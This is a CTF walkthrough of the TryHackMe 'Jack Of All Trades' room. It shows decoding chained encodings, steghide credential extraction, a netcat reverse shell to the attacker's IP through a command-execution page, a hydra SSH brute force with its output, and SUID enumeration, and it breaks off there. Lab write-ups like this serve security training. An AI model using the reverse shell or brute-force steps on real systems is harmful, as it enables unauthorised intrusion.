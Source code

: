 # TryHackMe-Jack Of All Trades

## NMAP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-01 20:18 PKT
Nmap scan report for 10.10.103.231
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.76 seconds

```

## PORT 22

Noramlly this is default port 22 but in this case it is http if you visit it on firefox it has restricted default ports like ssh , ftp and etc so inorder to enable we have to go to browser's `about:config` and a property to override theses settings

https://support.mozilla.org/en-US/questions/1083282

<img src="https://imgur.com/rzMq2ks.png"/>


<img src="https://imgur.com/s6O5rAh.png"/>


And we can access the page now 

<img src="https://imgur.com/LdntB1r.png"/>

By looking at the source code

<img src="https://imgur.com/xb0DMC4.png"/>

We can find two things `/recovery.php` and a base64 encoded text


On decoding the text

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

user name john maybe


Download those images

<img src="https://imgur.com/B8Yflc3.png"/>


<img src="https://imgur.com/mFfLM5F.png"/>

By looking at the source code and login with `Jack` and `u?WtKSraq`

```
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=
```
This is base32 encoded text on decoding it 

<img src="https://imgur.com/PNwkLcw.png"/>

```
45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246
```

Now this is hex text on decoding it 

<img src="https://imgur.com/hInfNdO.png"/>

```
Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr! V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F
```

This is ROT 13 (Shift Cipher)

<img src="https://imgur.com/WmKeBxZ.png"/>

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

On visiting the link

<img src="https://imgur.com/WPPtesd.png"/>

Now its says about `Stegosauria` , now we recently downloaded two images on our machines ,so that dinosaur one looks interesting on using `steg hide --extract -sf [image.jpg]`

<img src="https://imgur.com/D8Dp9o2.png"/>

<img src="https://imgur.com/HL9DDof.png"/>

So this a rabbithole , lets steghide on different image , the second `jackinthebox.jpg` also didn't worked but when grabbed the `header.jpg` it worked

<img src="https://imgur.com/SNAzsSc.png"/>

```
 Username: jackinthebox
 Password: TplFxiSHjY 
```
However this is not the credentials for SSH 

<img src="https://imgur.com/vYObw7r.png"/>

Now this is a RCE execution we can run a reverse shell here

```
nc -e /bin/sh 10.14.3.143 4444

```
You can run any reverse shell you want but `netcat` one worked so lets roll with it

<img src="https://imgur.com/bXY0z0b.png"/>

Now we are `www-data` can't run really do much so lets try to elevate our privileges,so lets enumerate the machine , upload `linepeas`

<img src="https://imgur.com/1bwVyii.png"/>

Linpeas didn't find anyhting useful so there is a file in `~` home directory `jacks_password_list`

<img src="https://imgur.com/j95luIi.png"/>

## Hydra

Now we need to specify the port number becasue it's not on port 22

```
hydra -s 80 -l jack -P password_list.txt ssh://10.10.103.231 -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-01 21:49:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://10.10.103.231:80/
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "*hclqAzj+2GC+=0K" - 1 of 24 [child 0] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "eN<A@n^zI?FE$I5," - 2 of 24 [child 1] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "X<(@zo2XrEN)#MGC" - 3 of 24 [child 2] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass ",,aE1K,nW3Os,afb" - 4 of 24 [child 3] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "ITMJpGGIqg1jn?>@" - 5 of 24 [child 4] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "0HguX{,fgXPE;8yF" - 6 of 24 [child 5] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "sjRUb4*@pz<*ZITu" - 7 of 24 [child 6] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "[8V7o^gl(Gjt5[WB" - 8 of 24 [child 7] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "yTq0jI$d}Ka<T}PD" - 9 of 24 [child 8] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "Sc.[[2pL<>e)vC4}" - 10 of 24 [child 9] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "9;}#q*,A4wd{<X.T" - 11 of 24 [child 10] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "M41nrFt#PcV=(3%p" - 12 of 24 [child 11] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "GZx.t)H$&awU;SO<" - 13 of 24 [child 12] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass ".MVettz]a;&Z;cAC" - 14 of 24 [child 13] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "2fh%i9Pr5YiYIf51" - 15 of 24 [child 14] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "TDF@mdEd3ZQ(]hBO" - 16 of 24 [child 15] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "v]XBmwAk8vk5t3EF" - 17 of 25 [child 13] (0/1)
[80][ssh] host: 10.10.103.231   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-01 21:49:54

```

<img src="https://imgur.com/aT4gtfl.png"/>

Using netcat to get that image on our local machine

<img src="https://imgur.com/DgS4vMh.png"/>

<img src="https://imgur.com/agCAuvB.png"/>

This is our user flag

Check for SUID 

```

jack@jack-of-all-trades:~$ find / -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
jack@jack-of-all-trades:~$ 
```

<img src="https://imgur.com/xWUCjwT.png"/>

